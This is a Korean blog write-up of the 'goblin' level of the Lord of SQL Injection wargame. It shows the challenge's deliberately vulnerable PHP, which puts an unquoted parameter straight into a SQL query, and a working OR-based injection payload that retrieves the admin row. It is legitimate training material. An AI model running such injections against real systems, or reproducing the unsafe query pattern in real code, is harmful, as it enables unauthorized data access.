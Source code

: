 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - goblin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `goblin` 문제이다.  

이번에는 `password column` 대신에 `no column`이 생겼다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=
-------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`no column`이 새로 생겼으며, `id`가 `guest`로 고정되어 있다.  

또한 이번에는 `'(싱글쿼터)`를 입력할 수 없다.  

하지만 문제를 풀기 위해서는 `id`가 `admin`인 행을 추출해야 한다.  

`where` 절에서 `id='guest'`와 `no=??`의 두 조건은 `and`로 연결되어 있다.  

따라서 이를 이용 해 문제를 풀 수 있을 것 같다.  

데이터베이스에 아래와 같이 저장되어 있다고 가정 해 보자.  

| no  | id |
| :------------ | :-----------: |
| 0 | guest |
| 1 | admin |

이 경우, 만약 `no` 자리에 `0`이 있다면 결과적으로 `where id='guest' and no={$_GET[no]}`의 where 절은 참이 되므로 첫 번째 행이 추출 될 것이다.  

하지만 만약 `no`자리에 `0이 아닌 값`이 들어간다면 결과적으로 조건절은 `거짓`이 되어 아무런 결과 값을 가져오지 않는다.  

이 때, 만약 뒤에 아래와 같이 `or`로 묶인 조건이 추가적으로 있을 경우 뒤의 조건문을 실행하게 된다.  

```
where id='guest' and no=1 or no=1
```

위의 where 절에서 `id='guest'`이고 `no=1`인 행이 없으므로, `and`로 묶여 있는 조건은 `거짓`이 된다.  

때문에 `or`뒤의 조건을 실행하게 되어 `no=1`인 행을 추출하게 된다.  

따라서 기존에 있던 조건 뒤에 추가적으로 조건을 삽입할 수 있다면 `id`가 `guest가 아닌` 행을 추출할 수 있다.  

먼저 문제를 풀기 위해 `guest`의 `no`가 무엇인지 확인하기 위해 `no`에 `0`, `1`을 입력 해 보았다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=1
----------------------------------------------------------------------------------

Hello guest
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

그 결과 `no`가 `1`일 때 `Hello guest`가 출력되는 것을 확인할 수 있다.  

따라서 `guest`의 `no`는 `1`임을 알 수 있으며 추측할 수 있는 데이터베이스의 데이터는 다음과 같다.  

| no  | id |
| :------------ | :-----------: |
| 1 | guest |
| 1이 아닌 값 | admin |

즉, `id`가 `admin`인 행의 `no`는 `1이 아닌 값`으로 되어 있을 것이다.  

위에서 설명했다시피 다음과 같이 입력 해 `and`로 묶인 조건을 거짓으로 만드는 쿼리를 구성하면 `id가 guest가 아닌 행`을 추출할 수 있다.  

```
?no=0 or no=0
```

따라서 `id`가 `admin`인 행을 추출하기 위해 `or` 뒤의 `no` 자리에 `1`이 아닌 값을 차례로 입력 해 보면 언젠가는 내가 원하는 행을 추출할 수 있을 것이다.  

`0`부터 입력해 본 결과, `no`가 `2`일 때 문제를 풀 수 있었다.  

```php
------------------------------------------------------------------------------------------
query : select id from prob_goblin where id='guest' and no=0 or no=2
------------------------------------------------------------------------------------------

Hello admin
GOBLIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

`GOBLIN Clear!!`
